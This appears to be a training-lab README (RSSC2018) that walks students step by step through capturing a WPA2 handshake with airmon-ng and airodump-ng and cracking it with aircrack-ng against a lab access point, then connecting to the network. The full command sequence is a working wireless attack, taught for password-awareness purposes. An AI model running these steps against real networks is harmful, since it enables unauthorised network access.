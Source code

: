 # RSSC2018-Wireless-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started:
1. An access point broadcasting an SSID with a WPA2 password.
2. Kali Linux installed to attack the target host from.
3. A wireless card compatible with Kali Linux to scan/monitor wireless networks in your vicinity. 

## Air Monitor
You will walk through the process of monitoring wireless networks and capturing a WPA2 handshake. You will need one Terminal window open to execute the following steps.

1. In your terminal, execute the iwconfig command to show any wireless cards in the computer. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You will need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning | grep -B 5 'RSSC'
```
* grep 'RSSC' prints lines matching the pattern 'RSSC'
* grep -B 5 'RSSC' prints out lines matching the pattern 'RSSC' and the 5 lines before the match.

Next, you need to change the wireless card to monitoring mode. You do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```
More information on the commands used, or other information about airmon-ng can be found by running `man airmon-ng`.  

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
You can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. You will have to catch someone in the act of authenticating to get a valid capture. We have a script running that acts as someone authenticating to the network and generating that WPA2 handshake. 
```bash
airodump-ng wlan0mon –-bssid <mac-address> --channel <channel> –-write <filename>
``` 
Note: Replace the 'mac-address' and 'channel' with what you found in step 3 and give it a filename. MAC address will need to use numbers, colons, and all caps. See below for correct command:
```bash
airodump-ng wlan0mon --bssid 00:30:44:27:E3:38 --channel 1 --write rssc
```
airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the terminal window. We want a to get a few of these handshakes in our capture. Run this command for 15 seconds and then break out of it using ‘ctrl + c’. An 'ls' after you break out should display 'rssc-*.cap' file that we will use in the next step.
  
More information on the commands used, or other information about airodump-ng can be found by running `man airodump-ng`. 

## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng rssc-01.cap -a 2 -w dictionary.txt
```
* -a forces the attack mode. The '2' following -a is for WPA-PSK. A '1' is used for WEP.
* -w is the path to the dictionary file used for WPA cracking. In this case, 'dictionary.txt' is sitting in our home directory.

After a few seconds, it should find the password needed to get onto the 'RSSC' network. It is 'Drowssap2'.

More information on the commands used, or other information about aircrack-ng can be found by running `man aircrack-ng`. 

## Connecting to Wireless Network

Now that you have the WPA2 password, you can get onto the 'RSSC' network.

9. Before we can use the wireless card, we need to take it out of monitoring mode. 
```bash
airmon-ng stop wlan0mon
```

10. Back on the Kali Linux desktop, select the icon at the bottom of the sidebar titled 'Show Applications'. Use the 'Type to search' box to search 'Settings' and open it. Select Wi-Fi and find 'RSSC' under 'Visible Networks'. Select it and type in the password (Drowssap2) to connect to the network.

11. Back in terminal, type:
```bash
ping 192.168.0.1
```
This IP address is the AP/Router that is broadcasting this SSID. If you are able to ping it successfully, you have gotten onto the network. If not, make sure you are connected to the 'RSSC' network and try again.

## Clean-up
12. Run the following command to run a script to delete all the files you created and reset the network settings:
```bash
./cleanup.sh
```

## Conclusion
We hope that this lab shed some light on how easily an attacker is able to crack a short, non-unique password. The longer and more complex the password is, the longer it is going to take to be cracked. This time exponentially increases with each character that is added, especially if it has special, uppercase, and lowercase characters and numbers.
See the below link on some of the math involved in this:
https://www.grc.com/haystack.htm
